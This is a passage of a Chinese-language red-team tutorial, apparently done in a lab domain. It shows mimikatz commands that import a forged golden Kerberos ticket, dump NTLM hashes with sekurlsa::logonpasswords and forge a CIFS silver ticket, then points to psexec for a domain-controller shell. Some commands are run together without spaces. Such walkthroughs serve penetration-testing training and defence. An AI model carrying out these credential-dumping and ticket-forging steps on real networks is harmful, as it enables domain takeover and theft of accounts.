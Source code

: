 可以看到没有任何票证。

 **导入gold.kribi**

    
    
     kerberos::ptt C:\Users\jack\Desktop\gold.kirbi

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114532.png)

成功导入administrator票据。

![]()

可以通过事件管理器查看到是以administrator来登录的

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114533.png)

# 0x02 银票

如果我们拥有服务的hash，就可以给自己签发任意用户的TGS票据。金票是伪造TGT可用于访问任何Kerberos服务，而银票是伪造TGS，仅限于访问针对特定服务器的任何服务。

这里使用CIFS服务，该服务是windows机器之间的文件共享。

## 2.1 获取sid

    
    
    whoami /user

![]()

## 2.2 导出服务账号的NTLM Hash

    
    
    privilege::Debugsekurlsa::logonpasswords

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114534.png)

## 2.3 创建银票

![]()

    
    
    kerberos::golden /domain:redteam.local/sid:S-1-5-21-151877218-3666268517-4145415712/target:DC.redteam.local/service:cifs /rc4:0703759771e4bed877ecd472c95693a5/user:administrator /ptt

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114535.png)

psexec获取DC机器cmd

![]()
